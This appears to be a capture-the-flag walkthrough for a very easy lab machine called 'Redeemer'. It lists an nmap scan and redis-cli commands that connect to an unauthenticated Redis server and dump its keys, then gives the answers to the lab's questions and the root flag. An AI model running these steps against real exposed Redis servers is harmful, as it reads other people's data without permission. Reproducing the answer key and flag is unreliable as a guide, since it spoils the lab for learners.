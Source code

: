# Redeemer - Very Easy

```shell
nmap -T4 -p- -A 10.129.18.120

redis-cli -h 10.129.18.120 -p 6379

INFO

SELECT 0
#selects db0

KEYS *
#prints all keys

DUMP flag
#gives flag
```

1. Which TCP port is open on the machine? - 6379

2. Which service is running on the port that is open on the machine? - redis

3. What type of database is Redis? - In-memory database

4. Which command-line utility is used to interact with the Redis server? - redis-cli

5. Which flag is used with the Redis command-line utility to specify the hostname? - -h

6. Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? - INFO

7. What is the version of the Redis server being used on the target machine? - 5.0.7

8. Which command is used to select the desired database in Redis? - SELECT

9. How many keys are present inside the database with index 0? - 4

10. Which command is used to obtain all the keys in the database? - KEYS *

11. Root flag? - 03e1d2b376c37ab3f5319922053953eb
